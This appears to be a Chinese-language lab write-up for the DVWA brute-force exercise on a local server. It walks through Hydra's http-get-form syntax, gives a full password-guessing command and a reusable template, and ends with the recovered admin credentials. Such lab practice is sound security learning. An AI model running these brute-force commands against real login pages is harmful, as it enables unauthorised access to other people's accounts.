 # Brute force

## 觀察

觀察 URL parameters

```
http://localhost:8086/vulnerabilities/brute/?username=admin&password=123&Login=Login#
```

### 紀錄錯誤回應訊息

```
Username and/or password incorrect.
```

## 使用 Hydra 測試密碼

### Target URL
```
http://localhost:8086/vulnerabilities/brute/?username=qwe&password=123&Login=Login#
```
## Hydra options

### module: http-form-get

可以用 `hydra -U http-get-form` 閱讀一下 module 用法

```
hydra -U http-get-form
```

### http-form-get module syntax

```
Syntax: <url>:<form parameters>:<condition string>[:<optional>[:<optional>]
```

### path

```
/vulnerabilities/brute/?
```

### GET/POST 變數用 `^` 包住

```
:username=^USER^&password=^PASS^&Login=Login
```

### error message

```
:F=Username and/or password incorrect.
```

## brute force

### password lists

借用別人的 password list

SecLists/10-million-password-list-top-100.txt at master · danielmiessler/SecLists
[https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-100.txt)

```
hydra -V -l admin -P 10-million-password-list-top-10000.txt -s 8086 -f localhost http-form-get "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Hydra snippets

```
hydra -V -l <user> -P <password file> -s <port> -f <host> <module> "/vulnerabilities/brute/?:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect."
```

## Done 
```
帳號: admin
密碼: password
```
